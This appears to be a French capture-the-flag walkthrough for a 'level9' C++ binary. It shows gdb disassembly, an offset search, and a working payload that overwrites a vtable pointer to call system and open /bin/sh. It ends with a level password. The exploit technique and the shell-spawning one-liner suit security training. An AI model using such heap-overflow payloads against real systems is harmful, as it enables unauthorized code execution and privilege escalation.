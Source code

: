 On se connecte sur le level9, ou se trouve un **binaire** <code>level9</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q level9
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.

(gdb) > i functions
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
```

Après analyse du fichier (**source.c**), on se rend compte que le programme appelle la fonction **memcpy** que nous pourront exploiter.
On commence par trouver l'offset

```gdb
(gdb) > b *main+136
Breakpoint 1 at 0x804867c
(gdb) > b *main+140
Breakpoint 2 at 0x8048680
(gdb) > b *main+142
Breakpoint 3 at 0x8048682
(gdb) > run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/level9/level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Breakpoint 1, 0x0804867c in main ()
(gdb) > p $eax
$1 = 134520844
(gdb) > p/x $eax
$2 = 0x804a00c
(gdb) > x $eax
0x804a00c:      0x41414141
(gdb) > s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x08048680 in main ()
(gdb) > x $eax
0x804a078:      0x62626262
(gdb) > s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 3, 0x08048682 in main ()
(gdb) > x $eax
0x62626262:     Cannot access memory at address 0x62626262
(gdb) > p 0x62
$3 = 98
```

98 correspond à la valeur ascii de 'b', on a donc **overflow**à partir des 'b', nous avons donc passé 27 * 4 lettres, ce qui correspond à un **offset** de 108.

> OFFSET = 108

Regardont ce qu'il se passe au retour de la fonction

```gdb
(gdb) > d 1
(gdb) > d 2
(gdb) > d 3
(gdb) > b *main+136
Breakpoint 4 at 0x804867c
(gdb) > b *main+140
Breakpoint 5 at 0x8048680
(gdb) > b *main+142
Breakpoint 6 at 0x8048682
(gdb) > run
The program being debugged has been started already.
Start it from the beginning? (y or n) > y

Starting program: /home/user/level9/level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Breakpoint 4, 0x0804867c in main ()
(gdb) > x $eax
0x804a00c:      0x41414141
(gdb) > ni

Breakpoint 5, 0x08048680 in main ()
(gdb) > x $eax
0x804a078:      0x62626262
(gdb) > ni

Breakpoint 6, 0x08048682 in main ()
(gdb) > x $eax
0x62626262:     Cannot access memory at address 0x62626262
(gdb)
```

On remarque que en premier lieu, notre eax pointe sur nos 'A' et que nous possédons l'adresse, et que par jeu de pointeur, 2 instructions après, nous pouvons voir que la valeur de l'addresse contenu dans eax est copier dans edx (dans notre exemple, la valeur copier est celle de nos 'b'). Nous pouvons également constater que par la suite, l'instruction situé à l'adresse contenue dans edx est call. 
Nous pouvons donc insérer l'addresse de system au niveaux de nos 'A'.
Nous pouvons indiquer l'addresse de notre insertion au niveau de nos 'b' pour qu'elle soit exécuté par le call. Les arguments lu dans la mémoire seront  les octets suivant nos 'b'. 

```gdb
(gdb) b main
Breakpoint 1 at 0x80485f8
(gdb) run
Starting program: /home/user/level9/level9

Breakpoint 1, 0x080485f8 in main ()
(gdb) p *system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

> SYSTEM = 0xb7d86060


```bash
> ./level9 `python -c 'print "\x60\x60\xd8\xb7" + "A"*104 + "\x0c\xa0\x04\x08;/bin/sh"'`
```

For download :
<pre><code>scp -P4242 level9@192.168.1.78:level9 .</code></pre>
> Password : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a